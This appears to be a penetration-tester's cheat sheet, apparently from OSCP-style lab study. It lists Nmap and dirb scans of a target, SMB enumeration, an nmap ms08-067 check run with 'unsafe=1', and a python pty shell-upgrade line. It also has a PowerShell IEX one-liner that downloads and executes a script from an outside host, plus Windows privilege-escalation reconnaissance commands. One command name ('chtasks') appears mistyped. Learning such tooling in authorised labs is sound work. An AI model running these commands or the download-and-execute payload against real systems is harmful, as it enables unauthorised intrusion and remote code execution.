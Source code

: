 # Nmap
sudo nmap -O -sS -p- "$target"
sudo nmap -sU -p- "$target"
sudo nmap -sC -sV "$target"
sudo nmap -O -sS -p- "$target" | tee synscan.txt && sudo nmap -sC -sV "$target" | tee scriptscan.txt && sudo nmap -sU -p- "$target" | tee udpscan.txt

# Sudo
sudo -l

# Dirb
dirb "http://$target" -r -z 10

# SMB
sudo nbtscan -r "$target"
nmap -v -p 139,445 --script=smb-vuln-ms08-067 --script-args=unsafe=1 "$target"

# Upgrading Shell
python -c 'import pty; pty.spawn(\"/bin/bash\")'

# Powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
Also check out 16.2.3 for base64 executable transfer and execution

# Windows Priv Esc
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
net user [username]
ipconfig /all 
tasklist /SVC **all running proccesses**
route print **all routes**
netstat -ano  **all active tcp connections**
netsh advfirewall show currentprofile **current firewall settings**
chtasks /query /fo LIST /v **scheduled tasks**
wmic product get name, version, vendor **installed software**
wmic qfe get Caption, Description, HotFixID, InstalledOn **installed version**
